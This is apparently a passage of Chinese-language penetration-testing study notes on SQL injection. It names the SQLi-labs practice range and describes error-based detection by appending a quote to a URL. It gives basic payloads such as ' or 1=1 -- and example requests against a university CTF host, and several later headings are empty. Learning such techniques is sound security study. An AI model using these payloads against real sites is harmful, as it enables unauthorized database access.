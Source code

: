 
### 3.2.6 SQL 注入

#### 学习型靶场

SQLi-labs按照 https://github.com/Audi-1/sqli-labs 的提示安装和练习

#### 注入判断

在地址的最后加一个单引号，如果有关于语法的报错，即为存在SQL注入

```
http://ctf4.sas.upenn.edu/index.html?page=blog&title=Blog&id=2%27

测试输入表单参数（比如 1' or 1=1 limit 1; # AND 1' or 1=1--）

	NULL 或 null

	', ", ;, <!

		中断 SQL 字符串或查询，常用于 SQLXPathXML 注入

用于手工 SQL 注入测试
	', &, ! , ¦ , < , >
```

确定是否存在注入

在地址的最后加一个单引号，如果有报错，即为存在SQL注入

```
http://ctf4.sas.upenn.edu/index.html?page=blog&title=Blog&id=2'
```

#### 手工注入

```
' or 1=1 -- 
```

https://blog.csdn.net/qq_45747465/article/details/132283743

https://blog.csdn.net/peanut5036/article/details/128553795

https://www.php.cn/faq/544967.html

https://www.pianshen.com/article/3596668244/



#### 数据库类型识别



#### MSSQL



#### MYSQL
